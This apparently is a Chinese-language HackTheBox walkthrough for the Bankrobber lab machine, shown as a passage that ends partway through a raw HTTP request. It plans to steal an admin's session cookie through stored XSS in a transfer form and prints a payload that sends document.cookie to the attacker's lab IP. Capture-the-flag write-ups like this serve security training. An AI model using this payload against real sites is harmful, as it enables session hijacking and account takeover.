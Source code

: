 ```yaml
---
layout: post
title:  "HackTheBox >_ Bankrobber_154"
description: walkthrough
category: HackTheBox
---
```

# Bankrobber_154

![image-20200927102049195]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927102049195.png)

80

443

445

3306

常规扫描，不复述

![image-20200927102229194]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927102229194.png)

测试了一圈，并没发现什么合适的地方，尝试注册，看能否越权。

但是并没有什么有用的

在transfer发现了有趣的地方

![image-20200927102747205]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927102747205.png)

随便填入信息进行测试发现：

![image-20200927102302429]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927102302429.png)

就是说管理员会进行人工审核。也就是说管理员会登陆

我们可以尝试盗取cookie，从而达到使用管理员权限登陆网站，尝试更多测试，抓包

![image-20200927102938272]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927102938272.png)

我们可以修改包中能输入内容的文本框，在中间插入我们利用xss的img错误

提交一个伪造的img错误指向kali的80端口并传输管理员的cookie，

payload如下：

```html
<img src=x onerror=this.src="http://10.10.14.25/?c="%2bdocument.cookie>
```

反复尝试， 最后把语句所有的参数都打入了payload才成功,最终包如下

```html
POST /user/transfer.php HTTP/1.1
Host: 10.10.10.154
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.154/user/
Content-type: application/x-www-form-urlencoded
Content-Length: 244
Origin: http://10.10.10.154
Connection: close
Cookie: id=3; username=dGVzdA%3D%3D; password=dGVzdA%3D%3D

```